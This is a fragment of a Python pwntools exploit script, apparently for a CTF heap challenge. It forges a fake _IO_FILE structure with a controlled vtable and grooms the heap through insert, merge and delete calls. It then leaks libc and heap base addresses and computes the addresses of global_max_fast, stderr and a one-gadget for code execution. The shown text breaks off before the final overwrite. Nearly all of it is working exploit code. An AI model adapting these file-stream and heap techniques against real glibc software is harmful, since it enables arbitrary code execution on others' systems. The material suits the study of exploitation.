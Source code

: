 ```
    fake_file+=p64(0)                       #_markers
    fake_file+=p64(0)                       #chain   could be a anathor file struct
    fake_file+=p32(1)                       #_fileno
    fake_file+=p32(0)                       #_flags2
    fake_file+=p64(0xffffffffffffffff)      #_old_offset
    fake_file+=p16(0)                       #_cur_column
    fake_file+=p8(0)                        #_vtable_offset
    fake_file+=p8(0x10)                      #_shortbuf
    fake_file+=p32(0)
    fake_file+=p64(0)                    #_lock
    fake_file+=p64(0xffffffffffffffff)      #_offset
    fake_file+=p64(0)                       #_codecvt
    fake_file+=p64(0)                    #_wide_data
    fake_file+=p64(0)                       #_freeres_list
    fake_file+=p64(0)                       #_freeres_buf
    fake_file+=p64(0)                       #__pad5
    fake_file+=p32(0xffffffff)              #_mode
    fake_file+=p32(0)                       #unused2
    fake_file+=p64(0)*2                     #unused2
    fake_file+=p64(vtable)                       #vtable

    return fake_file


def pwn():

    #pdbg.bp([0x13ea,0x148a])
    insert(0x40,'a'*0x40) #0
    insert(0x40,'b'*0x40) #1
    insert(0x40,'c'*0x40) #2
    insert(0x40,'d'*0x40) #3
    insert(0x40,'e'*0x40) #4 
    insert(0x1000-0x10,'f'*(0x1000-0x10)) #5
    insert(0x400,'f'*0x400) #6
    insert(0x400,'f'*0x400) #7
    insert(0x40, 'f'*0x40) #8
    insert(0x60,'f'*0x60) #9
    #merge(0,0)
    #pdbg.bp([0x13ea])
    delete(6)
    merge(7,5) #6
    #pdbg.bp()

    insert(0x400,'a'*0x400) #5
    merge(0,0) # 7
    merge(2,2) # 0


    ## step 1 leak libc address and heap address
    #pdbg.bp([0x120c,0x1052])
    view(7)
    p.recvuntil(":n")

    unsorted_addr=u64(p.recv(8))
    libc_base=unsorted_addr-libc.symbols['main_arena']-88
    heap_base=u64(p.recv(8))-0x120
    #pdbg.bp([0x120c,0x123f,0x1052])
    log.info("leak libc base: %s"%hex(libc_base))
    log.info("leak heap base: %s"%hex(heap_base))
    global_max_fast=libc_base+libc.symbols['global_max_fast']
    io_stderr=libc_base+libc.symbols['_IO_2_1_stderr_']
    rce=libc_base+0xd5c07  
    #pdbg.bp([0x1216,0x13ea]) 
```